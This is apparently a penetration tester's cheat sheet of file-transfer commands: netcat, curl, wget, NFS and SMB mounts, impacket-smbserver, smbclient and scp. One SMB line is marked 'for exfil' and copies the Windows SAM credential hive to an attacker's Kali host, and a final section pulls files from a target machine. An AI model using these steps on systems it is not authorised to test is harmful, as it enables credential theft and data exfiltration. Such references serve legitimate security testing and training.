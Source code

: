 # Linux File Transfers

## Netcat

##### start listener on target
```sh
nc -nlvp [PORT] > [RECIVING_FILE]
```
##### send the file
```
nc [IP] [PORT] < [SENDING_FILE]
```


## Start Python Webserver
```
python3 -m http.server [PORT]
```

##### Curl

```sh
curl -F "upload=@[FILE]" https://[IP]/[FILE]
```

```
curl -o [FILE] https://[IP]/[FILE]
```

##### Wget
```
wget [IP]:[PORT]/[FILE]
```

## NFS Shares

```sh
sudo mkdir -p /mnt/[SHARE]
```
```sh
mount -t nfs -o vers=3 [IP]:/[FOLDER]/ /mnt/[SHARE]
```
```sh
sudo mkdir -p /mnt/[SHARE]
```
```sh
mount -t nfs -o vers=2 [REMOTE_IP]:/[FOLDER]/ /mnt/[SHARE]
```
##### Unmount
```sh
sudo umount /mnt/[SHARE]
```
##### Mount at Boot
```sh
[IP]:/[SHARE]/[FOLDER]  /mnt/[SHARE]  nfs  defaults,vers=3  0  0
```

## SMB Shares

##### Mount SMB Share
```sh
sudo mount -t cifs -o vers=1.0 //[REMOTE_IP]/'[SHARE]' /mnt/[SHARE]
```
##### Host SMB Share
```sh
sudo impacket-smbserver [SHARE] .
# to use for exfil: copy C:\Windows\Repair\SAM \\KALI_IP\share\sam.save
```
##### Upload from Target
```
copy C:\Path\To\[FILE] \\[IP]\[SHARE]\[FILE]
```
##### Upload with curl to Target
```sh
curl --upload-file /Path/To/[FILE] -u 'DOMAIN\[USER]' smb://[IP]/[SHARE]/
```
##### Use smbclient to Get ALL files from an SMB share
```sh
smbclient //[IP]/[SHARE]
RECURSE ON
PROMPT OFF
mget *
```

### SCP
##### Copy TO Remote Machine
```sh
scp /[LOCAL_PATH]/[FILE] [USER]@[IP]:/[REMOTE_PATH]/[FILE]
```

##### Copy FROM Remote Machine
```sh
scp [USER]@[IP]:/[REMOTE_PATH]/[FILE] /[LOCAL_PATH]/[FILE]
```

### From Windows to local Kali machine using impacket-smbserver
On local Kali machine:
```
sudo impacket-smbserver ShareName $(pwd)
```
Connect to newly created Share from Remote Windows target:
```
net use \\$LHOST\ShareName
```
Once connected to Share
```
copy $FILEPATH\file \\$LOST\ShareName
```
File should be copied from remote Windows target to local Kali machine at $(pwd)